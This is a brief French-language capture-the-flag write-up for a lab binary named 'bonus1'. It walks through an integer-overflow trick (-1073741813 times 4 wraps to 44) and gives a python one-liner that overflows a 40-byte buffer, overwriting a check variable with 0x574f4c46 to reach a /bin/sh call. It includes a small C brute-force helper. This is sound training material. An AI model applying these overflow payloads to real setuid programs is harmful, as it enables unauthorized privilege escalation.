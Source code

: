 The programm segfault sans argument, et return avec un argument.

Avec ltrace on voit un appel a atoi qui attends un chiffre negatif pour ensuite faire un memcpy.

Il faut regarder l'assembleur et decompiler avec jira pour comprendre ce qu'on attends de nous.

En fait il faut passer plusieurs checks pour arriver dans un appel a /bin/sh.

Pour commencer on cherche en premiere parametre un chiffre negatif qui est egal a 44 quand multiplie par 4 a cause des limit int_max et int_min

O a besoin d'un petit programme pour ca.

#include <stdio.h>

int main(int argc, char *argv[]){
        signed int neg = -1;
        while((neg * 4) != 44 ){
                neg--;
        }
        printf("%d\n",neg);
        //
	printf("%d\n",neg << 2);
} >> on trouve -1073741813

Pourquoi 44 ? On veut ecrire dans un buffer de 40, + 4 pour ecrire dans sur ce nombre -1073741813 la valeur demande par le deuxieme check :

if (number == 0x574f4c46(1464814662 en int))
 0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)

On mets en little endian la valeur  1464814662 = 0x574f4c46
./bonus1 -1073741813 $(python -c 'print "\x90" * 40 + "\x46\x4c\x4f\x57"')